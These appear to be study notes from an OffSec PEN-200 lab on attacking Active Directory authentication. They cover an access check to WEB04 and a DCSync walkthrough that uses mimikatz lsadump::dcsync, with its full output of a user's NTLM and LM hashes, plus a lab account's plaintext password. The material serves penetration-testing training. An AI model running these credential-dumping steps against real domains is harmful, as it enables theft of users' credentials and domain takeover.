Verify _jeffadmin_'s access to WEB04
```
PS C:\Tools> iwr -UseDefaultCredentials http://web04

StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                    <head>
```

**Note: patch for forging tickets for non-existent domain users implemented Oct. 11, 2022

### Domain Controller Synchronization
- Redundant DCs use _Directory Replication Service_ (DRS) Remote Protocol[1](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/domain-controller-synchronization-46110#fn-local_id_64-1)
- DC requests updates with _DL_DRSGetNCChanges_[3](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/domain-controller-synchronization-46110#fn-local_id_64-3) API

#### DCSync Attack from Windows
Impersonate a DC to request any user creds from domain
- Need to have admin account or user with _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights

##### Step 1: RDP to CLIENT75 as `jeffadmin:BrouhahaTungPerorateBroom2023!`

##### Step 2: Launch Mimikatz and use `lsadump:dcsync` to obtain a target user's hash
```hlt:1,21
mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
```
